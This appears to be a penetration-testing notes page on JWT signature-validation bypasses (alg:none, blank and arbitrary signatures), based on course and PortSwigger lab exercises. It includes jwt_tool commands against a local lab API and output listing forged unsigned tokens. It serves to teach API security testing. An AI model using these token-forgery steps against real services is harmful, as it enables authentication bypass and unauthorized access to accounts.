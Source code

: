 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Signature Validation

{% hint style="success" %}
JWT **signature validation** involves verifying that the token's signature is legitimate and has not been tampered with. This process uses a cryptographic algorithm and a secret key (or public key, in the case of asymmetric algorithms) to ensure that the token was created by a trusted source and that its content remains unchanged. Proper signature validation prevents attackers from altering the token's claims or creating forged tokens. **Servers** don't store any JWT-related information, thus, they **don't know anything about its contents**!
{% endhint %}

## None Algorithm

{% hint style="success" %}
The **JWT `alg: "none"` attack** exploits the JWT specification allowing `alg: "none"` for tokens without a signature. An attacker creates a token with `alg: "none"` and arbitrary claims. If the server accepts this token without verifying a signature, the attacker gains unauthorized access.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

After obtaining a JWT, we can start by auditing it by using an endpoint which process the token in some way, i.e., sends back different responses if the token is and it isn't present (Figure 1).

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation.png" alt=""><figcaption><p>Figure 1: Finding an appropriate endpoint.</p></figcaption></figure>

The JWT header contains an `alg` parameter which tells the server which algorithm was used to sign the token, i.e., which alogirthm it needs to use when veryfing the signature. **This is inherently flawed as it is user-controlled**. JWTs can be also left unsigned using `"alg":"none"`, aka _**unsecure JWT**_. Servers usually reject this tokens, but since this relies on string parsing, it can be obfuscated.

{% hint style="warning" %}
Even if the token is unsigned, **the payload part must end with a trailing dot**.
{% endhint %}

We can then audit the JWT (Figure 2).

{% code overflow="wrap" %}
```bash
$ jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0X3RjbUBnbWFpbC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxOTI5NjM4OCwiZXhwIjoxNzE5OTAxMTg4fQ.BlO4H5UQM_maTkbRtwBhGags2DSIXxOI-mvUW1A4IRBb0VLshF_xIP74Rm-e1BjhyCKHqIuRp9GKRlse4CgY2CwpiNYbDFrbnYLNvfqzOoc1VRs-sUbhpq24h4mIZK1OJ3Jktd3fwMWEd1MolUFtO8WgaI0NVXwdi0jStFVXbnwZ0MU-HzOW7sK1aUCBuI6hAqrsZMf0iXYl5qhjGIDQ8VLcOPAhdr4-Yf-S4B2dhxjx2dxFZYZHvZAeZ4FHEkJa-IlDCeE_OmIKyQKF_03CRmKB0KHrX5TBxgitzDraSgoeKjeI-E8Zz7cchxK53otrD0tKbNEHC_N2p1cGrts_BQ' -M at
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_1.png" alt=""><figcaption><p>Figure 2: Auditing the JWT using <code>jwt_tool</code>.</p></figcaption></figure>

We could then use Burp's [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension to validate the `alg:none` vulnerability (Figure 3 & 4).

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_2.png" alt=""><figcaption><p>Figure 3: Validating the <code>alg:none</code> attack.</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_3.png" alt=""><figcaption><p>Figure 4: The server sends a <code>200</code> without validating the JWT signature (BOLA).</p></figcaption></figure>

We also have the option to choose different capitalization of the `none` algorithm (Figure 5).

<figure><img src="../../../../../.gitbook/assets/web_jwts_none_attack_2.png" alt=""><figcaption><p>Figure 5: Capitalization options for the <code>none</code> algorithm.</p></figcaption></figure>

## Blank Signature

{% hint style="success" %}
The **JWT blank signature** attack involves removing or leaving the signature part of a JWT blank. If the server does not properly validate the signature's presence and integrity, it accepts the manipulated token.
{% endhint %}

> _The below example is based on APISEC University's course_ [_API Penetration Testing_](https://www.apisecuniversity.com/courses/api-penetration-testing)_._

We can generate a token without a signature and see how the server responds.

{% code overflow="wrap" %}
```bash
$ jwt_tool.py <JWT> -X a

Original JWT:

jwttool_a7333a823ae2439cb9a1f625cf57874a - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_ba16d4490898e1a275865d6054d29218 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_933d31b931b0cde418923bd086cb24b8 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_779c72e9bb024b8feebb000aaf8f8b96 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.

# Copy this token to a request and see how it responds
```
{% endcode %}

## Arbitraty Signature

{% hint style="success" %}
The **JWT arbitrary signature** attack involves an attacker creating a token with a valid header and payload but using an arbitrary or invalid signature. If the server does not correctly verify the token's signature against the proper secret or public key, it may accept the manipulated token.
{% endhint %}

> _The below example is based on PortSwigger's_ [_JWT authentication bypass via unverified signature_](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature) _lab._

JWT libraries usually provide 2 methods, one for verification and one for decoding. For example, Node.js's `jsonwebtoken` library has the `verify()` and `decode()` methods. If a developer only use the latter, the application won't verify the signature at all. In this case, it is possible to modify a claim directly (Figure 6).

<figure><img src="../../../../../.gitbook/assets/jwt_arbitraty_sign.png" alt=""><figcaption><p>Figure 6: Modifying the <code>sub</code> claim results in an altered signature which is accepted by the server.</p></figcaption></figure>
